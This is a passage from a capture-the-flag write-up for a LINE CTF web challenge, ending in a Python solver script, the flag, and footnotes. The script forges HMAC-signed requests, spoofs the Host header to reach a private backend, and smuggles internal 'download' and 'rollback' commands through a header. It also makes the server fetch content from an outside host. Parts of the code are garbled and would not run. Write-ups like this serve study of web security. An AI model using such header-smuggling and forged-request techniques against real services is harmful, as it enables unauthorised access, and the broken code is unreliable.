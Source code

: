 ```py
                           'Host': PRIVATE_HOST,
                           'Lang': 'integrityStatus'
                       })
    return json.loads[res.headers['lang']]('dbhash')

def generate_sign(s: str) -> str:
    return hmac.new(PRIVATE_KEY, s.encode(), hashlib.sha512).hexdigest()

def generate_key(s: str) -> str:
    return hashlib.sha512(s.encode('ascii')).hexdigest()

def add_prefix(s: str, prefix: str) -> str:
    return f'{prefix}{s}'

def execute_download(srcUrl: str) -> requests.Response:
    sign = generate_sign(f'src={srcUrl}')
    return requests.get(urljoin(PUBLIC_BASE_URL, '/'),
                        headers={
                            'Host': PRIVATE_HOST,
                            'Lang': f'download?src={srcUrl}',
                            'Sign': sign
                        })

def execute_rollback(dbHash: str) -> requests.Response:
    FRAGMENT = '_'

    key = generate_key(dbHash)
    sign = generate_sign(f'dbhash={add_prefix(dbHash, FRAGMENT)}')

    return requests.get(urljoin(PUBLIC_BASE_URL, '/'),
                        headers={
                            'Host': PRIVATE_HOST,
                            'Lang': f'rollback?dbhash={add_prefix(dbHash, FRAGMENT)}',
                            'Key': key,
                            'Sign': sign
                        })

def exploit():
    execute_download(f'<https://lab.8ay.ac/{get_db_hash>()}')
    res = execute_rollback(get_db_hash())

    print(f'flag: {res.headers["lang"]}')

if __name__ == "__main__":
    exploit()

```

### Flag

`LINECTF{YOUNGCHAYOUNGCHABITCOINADAMYMONEYISBURNING}`


[^1]: I solved this with my teammate [@y0d3n](https://twitter.com/y0d3n).
[^2]: I feel that there is a relatively good way to put out a simple Writeup for the time being and give a detailed explanation at the review's timing.
[^3]: FYI: <https://qiita.com/no1zy_sec/items/dfccd91cf76bf73b7754>
[^4]: I didn't investigate if we could issue other method requests because it was enough to get the flag if there was a GET request.
[^5]: After being forwarded, it may be normalized using `app.main.LanguageNomarize (request)`.
[^6]: `%` is a wildcard that represents a string of 0 or more characters
[^7]: Actually, the manual leak by teammate [@y0d3n](https://twitter.com/y0d3n) was faster, but from a privacy point of view, instead of his face photo, The Solver script by Python is posted.